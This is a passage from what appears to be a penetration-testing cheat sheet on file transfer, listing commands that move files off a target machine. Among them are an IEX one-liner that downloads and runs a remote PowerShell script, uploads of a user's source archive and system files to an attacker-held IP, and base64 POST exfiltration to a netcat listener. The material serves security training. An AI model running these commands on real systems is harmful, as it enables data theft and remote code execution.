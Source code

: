 * `ruby -run -ehttpd . -p8000`

#### Download the File from the Target Machine onto the Pwnbox

* `wget 192.168.49.128:8000/filetotransfer.txt`

### `SMB`

#### Configuring WebDav Server

* `sudo pip install wsgidav cheroot`
* `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`

#### Connect from Windows

* `dir \\192.168.49.128\DavWWWRoot`

#### Uploading Files using SMB

* `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\`
* `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\`

### `Powershell`

#### Installing a Configured WebServer with Upload

* `pip3 install uploadserver`
* `python3 -m uploadserver`

#### PowerShell Script to Upload a File to Python Upload Server

* `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
* `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`

#### PowerShell Base64 Web Upload

* We can listen with netcat and then send a post request from our target to our machine with the file b64 encoded, then grab that post data from our server log
* `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
* `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`
* On our machine:
* `nc -lvnp 8000`
* Decode:
* `echo <base64> | base64 -d -w 0 > hosts`

## Downloading

### Python

